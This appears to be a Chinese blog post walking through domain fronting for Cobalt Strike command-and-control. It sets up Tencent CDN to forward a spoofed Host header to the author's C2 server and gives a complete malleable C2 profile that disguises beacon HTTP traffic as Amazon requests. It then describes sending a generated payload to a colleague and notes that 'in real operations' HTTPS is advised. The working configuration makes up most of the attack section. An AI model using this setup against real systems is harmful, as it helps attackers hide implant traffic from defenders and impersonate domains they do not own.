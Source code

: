 ```yaml
---
layout: post
title:  "cobaltstrike 域前置隐藏 c2"
date:   2021-04-29 17:18:43
categories: Development
author: co0ontty
categories: 安全研究 ALL
tags: 安全研究 ALL
describe: cobaltstrike 域前置隐藏 c2
cover: '/assets/img/posts/WechatIMG3712.jpeg'
---
```

# cobaltstrike 域前置隐藏 c2

## 前言：

因为想搭建一套域前置来学习一下高端技术，但是看到网上各种博客和教程讲的我头晕脑涨，所以想写一下博客来记录一下。本文中的域名、c2 、cdn ip 都不会打厚码。能帮助刚接触的朋友快速理解。

## 原理介绍：

域前置的核心是 cdn 。在某 cdn 服务商开通 cdn 加速服务，并将想要伪造的域名与 c2 的 ip 进行绑定（阿里云和 cloudflare 需要验证，腾讯云不需要验证域名所属），通过向 cdn 的节点 ip 发送包含想要伪造 host 的请求，cdn 便会从记录中查找该 host 对应的源站 ip，并将流量转发至原站 ip。

## 开始搭建：

- 腾讯云 cdn 开通全站加速，并填写相关信息（youhao 为我同事，eversec.cn 为我司域名但我无法控制，可以改为任意域名，47.*.*.34 为我的 c2 服务器，其 80 端口为 cobaltstrike 的 http listener）

![/assets/img/posts/WechatIMG41412.jpeg](/assets/img/posts/WechatIMG41412.jpeg)

- 为 cobaltstrike teamserver 添加 profile，其中 `youhao.eversec.cn` 修改为想要伪装的域名   

``` bash
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";

http-get {

    set uri "/s/ref=nb_sb_noss_1/167-3294888-0262949/field-keywords=books";

    client {

        header "Accept" "*/*";
        header "Host" "youhao.eversec.cn";

        metadata {
            base64;
            prepend "session-token=";
            prepend "skin=noskin;";
            append "csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
            header "Cookie";
        }
    }

    server {

        header "Server" "Server";
        header "x-amz-id-1" "THKUYEZKCKPGY5T42PZT";
        header "x-amz-id-2" "a21yZ2xrNDNtdGRsa212bGV3YW85amZuZW9ydG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
        header "X-Frame-Options" "SAMEORIGIN";
        header "Content-Encoding" "gzip";

        output {
            print;
        }
    }
}

http-post {

    set uri "/N4215/adj/amzn.us.sr.aps";

    client {

        header "Accept" "*/*";
        header "Content-Type" "text/xml";
        header "X-Requested-With" "XMLHttpRequest";
        header "Host" "youhao.eversec.cn";

        parameter "sz" "160x600";
        parameter "oe" "oe=ISO-8859-1;";

        id {
            parameter "sn";
        }

        parameter "s" "3717";
        parameter "dc_ref" "http%3A%2F%2Fwww.amazon.com";

        output {
            base64;
            print;
        }
    }

    server {

        header "Server" "Server";
        header "x-amz-id-1" "THK9YEZJCKPGY5T42OZT";
        header "x-amz-id-2" "a21JZ1xrNDNtdGRsa219bGV3YW85amZuZW9zdG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
        header "X-Frame-Options" "SAMEORIGIN";
        header "x-ua-compatible" "IE=edge";

        output {
            print;
        }
    }
}
```

- 获取 cdn 的节点 ip，ping 这个 cname 获取到 cdn 的节点 ip

![/assets/img/posts/WechatIMG4144.jpeg](/assets/img/posts/WechatIMG4144.jpeg)
![/assets/img/posts/WechatIMG4143.png](/assets/img/posts/WechatIMG4143.png)

- 添加 listener，生成 payload 发给 youhao，youhao 上线

![/assets/img/posts/WechatIMG4142.jpeg](/assets/img/posts/WechatIMG4142.jpeg)

- 流量分析，为了方便理解所以使用的 http 进行的演示，可以看到已经看不到任何与 c2 通讯的特征，实战建议使用 https

![/assets/img/posts/WechatIMG3712.jpeg](/assets/img/posts/WechatIMG3712.jpeg)
